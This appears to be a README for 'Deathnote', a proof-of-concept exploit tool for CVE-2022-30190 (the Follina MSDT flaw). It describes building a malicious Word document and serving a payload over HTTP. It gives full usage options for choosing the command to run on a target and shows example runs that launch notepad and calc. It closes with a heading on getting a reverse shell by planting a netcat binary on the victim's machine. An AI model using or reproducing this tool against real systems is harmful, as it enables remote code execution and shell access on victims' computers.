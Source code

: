 # Deathnote
<img align="Center" src="https://media3.giphy.com/media/xT1XH3NIegS0FBc1K8/giphy.gif">

### Proof of Concept of CVE-2022-30190

 `A remote code execution vulnerability exists when MSDT is called using the URL protocol from a calling application such as Word. An attacker who successfully exploits this vulnerability can run arbitrary code with the privileges of the calling application. The attacker can then install programs, view, change, or delete data, or create new accounts in the context allowed by the user’s rights,`

--------------

Create a "Deathnote" MS-MSDT attack with a malicious Microsoft Word document and stage a payload with an HTTP server.

# Usage

```
usage: follina.py [-h] [--command COMMAND] [--output OUTPUT] [--interface INTERFACE] [--port PORT]

options:
  -h, --help            show this help message and exit
  --command COMMAND, -c COMMAND
                        command to run on the target (default: Notepad)
  --output OUTPUT, -o OUTPUT
                        output maldoc file (default: ./Deathnote.doc)
  --interface INTERFACE, -i INTERFACE
                        network interface or IP address to host the HTTP server (default: eth0)
  --port PORT, -p PORT  port to serve the HTTP server (default: 8000)
```

# Examples

Pop `notepad.exe`:

```
$ python3 Deathnote.py   
[+] copied staging doc /tmp/9mcvbrwo
[+] created maldoc ./Deathnote.doc
[+] serving html payload on :8000
```

Pop `calc.exe`:

```
$ python3 Deathnote.py -c "calc"
```


### Get a reverse shell on port 4444. **Note, this downloads a netcat binary _onto the victim_ and places it in `C:\Windows\Tasks`. It does not clean up the binary. This will trigger antivirus detections unless AV is disabled.**
